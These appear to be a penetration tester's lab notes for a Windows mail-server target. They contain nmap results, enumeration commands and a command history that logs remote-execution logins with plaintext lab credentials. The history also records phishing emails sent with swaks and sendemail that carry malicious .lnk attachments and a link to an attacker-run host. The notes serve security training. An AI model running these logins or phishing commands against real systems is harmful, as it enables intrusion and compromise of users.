 # 192.168.X.189
# Navigation
- [Summary](#summary)
- [Flags](#flags)
- [Accounts](#accounts)
- [Enumeration](#enumeration)
    - [NMAP](#nmap)
    - [Local Users](#local-users)
    - [Local Groups](#local-groups)
    - [System Info](#system-info)
    - [Routes](#routes)
    - [Netstat](#netstat)
    - [Environment Vars](#environment-vars)
    - [Domain Controller Info](#domain-controller-info)
- [Services](#services)
    - [API Endpoints](#api-endpoints)
- [Command History](#command-history)
# Summary
-
# Flags    
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`
`sudo find / -type f -iname "local.txt" 2>/dev/null`    
`sudo find / -type f -iname "proof.txt" 2>/dev/null`
- 

# Accounts
### username / password
`<connection method>`   
`whoami /priv`
```

```
`whoami /groups`
```

```
# Enumeration
## NMAP
`sudo nmap -sV 192.168.152.189 --top-ports 1000`
```
PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
110/tcp  open  pop3          hMailServer pop3d
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp  open  imap          hMailServer imapd
445/tcp  open  microsoft-ds?
587/tcp  open  smtp          hMailServer smtpd
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows
```
`sudo nmap -A -T4 -p- 192.168.152.189`
```

```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```

```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```

```
## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.159.121:80 -w /usr/share/wordlists/dirb/big.txt -p pattern`
```

```

# Command History
```c
// 245 246 247 248 249 14 7 191 15 19 20 DC
//249 web vuln upload
// mark somewhere 

psexec with domain admin creds (vau pw)
// xfreerdp3 /u:dmzadmin /p:SlimGodhoodMope /v:192.168.204.191
impacket-psexec dmzadmin:SlimGodhoodMope@192.168.204.189
impacket-psexec FILES\Administrator:'vau!XCKjNQBv2$'@192.168.204.189
impacket-psexec michelle:'NotMyPassword0k?'@192.168.204.189
impacket-smbexec michelle:'NotMyPassword0k?'@192.168.204.189
impacket-wmiexec michelle:'NotMyPassword0k?'@192.168.204.189

winrm.py michelle:'NotMyPassword0k?'@192.168.204.189
evil-winrm -i 192.168.204.189 -u 'michelle' -p 'NotMyPassword0k?'


sendemail -t jim@relia.com -u help -m "http://192.168.45.165/test" -s 192.168.194.189 -xu maildmz@relia.com -xp DPuBT9tGCBrTbR -a help.lnk -f maildmz@relia.com


```
sudo swaks -t jim@relia.com --from maildmz@relia.com --attach @tools/config.Library-ms --attach @tools/powershell.lnk --server 192.168.204.189 --body @tools/body.txt --header "Subject: Staging Script" -au 'maildmz@relia.com' -ap 'DPuBT9tGCBrTbR'

swaks --auth-user 'maildmz@relia.com' --auth LOGIN --auth-password 'DPuBT9tGCBrTbR' --to jim@relia.com --from maildmz@relia.com --header "Subject: Password" --body "http://192.168.45.186/" --server 192.168.204.189 --attach help.lnk
sudo swaks -t jim@relia.com --from maildmz@relia.com --attach @help.lnk --server 192.168.204.189 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap